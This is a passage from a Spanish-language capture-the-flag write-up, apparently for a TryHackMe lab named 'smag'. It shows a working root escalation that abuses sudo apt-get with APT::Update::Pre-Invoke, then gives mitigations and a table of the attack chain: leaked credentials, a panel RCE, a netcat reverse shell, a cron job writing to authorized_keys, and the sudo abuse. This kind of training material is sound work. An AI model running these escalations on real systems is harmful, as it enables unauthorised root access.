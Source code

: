 ```bash
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# 
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Escalada exitosa

Al ejecutar el comando, inmediatamente obtuve una shell como **root**:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

Ya tenía el control total de la máquina, pudiendo leer cualquier archivo y manipular el sistema sin restricciones.

El fallo se debió a una **configuración insegura de sudo** que permitía a `jake` ejecutar `apt-get` como root.  
Dado que `apt-get` puede invocar comandos arbitrarios durante su ejecución, se explotó con la opción `APT::Update::Pre-Invoke` para obtener una shell root.

**Mitigación recomendada:**

- **Eliminar** `NOPASSWD` para `apt-get` en `sudoers`.
- Restringir el uso de `sudo` a utilidades **realmente necesarias** y preferir **wrappers** limitados.
- Implementar _policy kits_, _allowlists_ y **auditorías** de configuración.
- Monitorear uso de `sudo` y cambios en paquetes/apt logs.


## Cierre

La intrusión se cimentó en tres fallos encadenados: **credenciales expuestas**, **RCE en el panel de desarrollo** y dos **configuraciones inseguras** a nivel de sistema (**cron** y **sudo**). Documenté cada paso con el **porqué** técnico detrás y cómo **mitigarlo**. Con esto, deberías poder pegar el texto en tu documento y tener una narrativa clara, coherente y con foco en las dos escaladas de privilegios


### Cadena de escalada de privilegios


| **Etapa**        | **Descripción**                                                                                       |
| ---------------- | ----------------------------------------------------------------------------------------------------- |
| Reconocimiento   | Escaneo con Nmap y feroxbuster → descubrimiento de `/mail/`.                                          |
| Exfiltración     | Archivo PCAP en `/mail/` con credenciales (`helpdesk:cH4nG3M3_n0w`) y dominio `development.smag.thm`. |
| Acceso inicial   | Login en `development.smag.thm` → panel con ejecución de comandos (RCE).                              |
| Shell inversa    | Payload con netcat → acceso como usuario `www-data`.                                                  |
| Escalada I       | Cronjob de root copia archivo escribible a `~jake/.ssh/authorized_keys` → acceso SSH como `jake`.     |
| Escalada II      | `sudo -l` revela `NOPASSWD` en `/usr/bin/apt-get` → shell root con `APT::Update::Pre-Invoke`.         |
| Compromiso total | Obtención de privilegios root y acceso a `root.txt`.                                                  |
